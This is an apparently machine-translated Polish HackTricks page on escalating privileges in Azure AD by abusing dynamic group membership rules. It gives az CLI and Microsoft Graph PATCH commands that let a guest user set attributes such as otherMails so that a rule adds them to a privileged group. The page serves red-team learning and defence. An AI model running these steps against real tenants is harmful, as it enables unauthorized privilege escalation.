 # Az - Dynamic Groups Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Podstawowe informacje

**Dynamiczne grupy** to grupy, które mają zestaw **reguł** skonfigurowanych, a wszyscy **użytkownicy lub urządzenia**, które pasują do reguł, są dodawani do grupy. Za każdym razem, gdy **atrybut** użytkownika lub urządzenia jest **zmieniany**, dynamiczne reguły są **ponownie sprawdzane**. A gdy **nowa reguła** jest **tworzona**, wszystkie urządzenia i użytkownicy są **sprawdzani**.

Dynamiczne grupy mogą mieć przypisane **role Azure RBAC**, ale **nie jest możliwe** dodanie **ról AzureAD** do dynamicznych grup.

Ta funkcja wymaga licencji Azure AD premium P1.

## Privesc

Zauważ, że domyślnie każdy użytkownik może zapraszać gości w Azure AD, więc jeśli reguła **dynamicznej grupy** przyznaje **uprawnienia** użytkownikom na podstawie **atrybutów**, które mogą być **ustawione** w nowym **gościu**, możliwe jest **utworzenie gościa** z tymi atrybutami i **eskalacja uprawnień**. Gość może również zarządzać swoim własnym profilem i zmieniać te atrybuty.

Uzyskaj grupy, które pozwalają na dynamiczne członkostwo: **`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### Przykład

* **Przykład reguły**: `(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
* **Opis reguły**: Każdy użytkownik gość z drugim adresem e-mail zawierającym ciąg 'security' zostanie dodany do grupy

Dla adresu e-mail użytkownika gościa, zaakceptuj zaproszenie i sprawdź bieżące ustawienia **tego użytkownika** w [https://entra.microsoft.com/#view/Microsoft\_AAD\_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView).\
Niestety strona nie pozwala na modyfikację wartości atrybutów, więc musimy użyć API:

{% code overflow="wrap" %}
```powershell
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--headers 'Content-Type=application/json' \
--body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--query "otherMails"
```
{% endcode %}

## Odniesienia

* [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
